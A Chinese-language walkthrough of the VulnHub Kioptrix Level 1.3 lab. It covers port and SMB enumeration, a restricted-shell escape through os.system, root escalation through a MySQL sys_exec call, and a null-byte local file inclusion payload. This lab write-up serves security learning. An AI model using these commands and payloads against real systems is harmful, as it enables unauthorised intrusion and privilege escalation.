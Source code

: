 # Kioptrix Level 1.3

下载地址：

```
https://download.vulnhub.com/kioptrix/Kioptrix4_vmware.rar
```

## 实战操作

压缩包解压后，发现只有一个虚拟硬盘，需要打开一个虚拟机加入这块硬盘

![](<../../.gitbook/assets/image (12) (1) (1) (1) (1).png>)

把原来的硬盘删掉，添加这块硬盘

![](<../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1).png>)

增加成功

![](<../../.gitbook/assets/image (25) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

扫描到靶机IP：`192.168.0.11`。

扫描端口

```
┌──(root💀kali)-[~]
└─# nmap -sV -p1-65535 192.168.0.11                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-18 07:51 EST
Nmap scan report for 192.168.0.11
Host is up (0.0019s latency).
Not shown: 39528 closed ports, 26003 filtered ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:0C:29:C1:84:47 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.91 seconds
```

扫描网站看看有啥值得注意

```
┌──(root💀kali)-[~]
└─# nikto -h http://192.168.0.11/                                                                                                                                                                                                       1 ⨯
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.0.11
+ Target Hostname:    192.168.0.11
+ Target Port:        80
+ Start Time:         2021-12-18 07:54:05 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 7.2.12). PHP 5.6.33, 7.0.27, 7.1.13, 7.2.1 may also current release for each branch.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 98933, size: 5108, mtime: Tue Aug 28 06:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ Cookie PHPSESSID created without the httponly flag
+ 8724 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2021-12-18 07:54:19 (GMT-5) (14 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Samba枚举，枚举到几名用户

```
┌──(root💀kali)-[~]
└─# enum4linux   192.168.0.11
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\loneferret (Local User)
S-1-22-1-1001 Unix User\john (Local User)
S-1-22-1-1002 Unix User\robert (Local User)
```

msf内置Samba枚举脚本

```
msf6 > use auxiliary/scanner/smb/smb_enumusers
msf6 auxiliary(scanner/smb/smb_enumusers) > set rhosts 192.168.0.11
rhosts => 192.168.0.11
msf6 auxiliary(scanner/smb/smb_enumusers) > run

[+] 192.168.0.11:139      - KIOPTRIX4 [ nobody, robert, root, john, loneferret ] ( LockoutTries=0 PasswordMin=5 )
[*] 192.168.0.11:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

进入到web系统，发现有登录框，测试发现使用上面扫描到用户，可以爆出来用户密码

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1).png>)

使用上面的账号和密码，ssh登录进去。

进入终端模式

```
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

查看页面，找到MySQL密码

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

使用mysql提权

```
mysql> select sys_exec("usermod -aG admin john");
+------------------------------------+
| sys_exec("usermod -aG admin john") |
+------------------------------------+
| NULL                               | 
+------------------------------------+
1 row in set (0.05 sec)
```

提权成功

```
john@Kioptrix4:~$ sudo su root
[sudo] password for john: 
root@Kioptrix4:/home/john# whoami
root
```

查看祝贺信息

```
root@Kioptrix4:/home/john# cat /root/congrats.txt 
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret
```

**本地文件包含思路**

输入index.php可以看到报错信息里面是存在include调用

![](<../../.gitbook/assets/image (12) (1) (1) (1).png>)

直接无法访问

![](<../../.gitbook/assets/image (26) (1) (1) (1) (1) (1) (1).png>)

需要加`%00`进行截断

![](<../../.gitbook/assets/image (25) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

```
http://192.168.0.11/member.php?username=/proc/self/fd/9%00
```

![](<../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (25) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

![image-20230208150148792](../../.gitbook/assets/image-20230208150148792.png)
